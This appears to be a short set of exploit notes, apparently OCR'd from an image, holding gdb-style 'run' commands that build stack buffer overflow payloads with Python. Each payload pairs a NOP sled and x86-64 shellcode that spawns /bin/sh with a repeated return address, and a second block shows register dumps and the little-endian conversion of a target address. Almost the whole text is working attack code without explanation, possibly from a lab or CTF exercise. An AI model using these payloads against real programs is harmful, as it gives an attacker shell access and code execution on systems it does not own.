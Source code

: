 ```bash
run $(python -c 'print "\x90" * 490 + "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05" + "\x0a\xe9\xfe\xff\xff\x7f" * 10')

run $(python -c 'print "\x90" * 439 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x0a\xe9\xfe\xff\xff\x7f" * 10')
run $(python -c 'print "\x90" * 492 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x0a\xe9\xfe\xff\xff\x7f" * 10')

```

### Convert memory address to little endian

```bash
# ecx            0xbfffffc0	-1073741888
# edx            0xbffffc3a	-1073742790
# ebx            0xb7fb8000	-1208254464
# esp            0xbffffc40	0xbffffc40
# ebp            0x51515151	0x51515151

# 0xbf ff fa ba
# \xba\xfa\xff\xbf
```
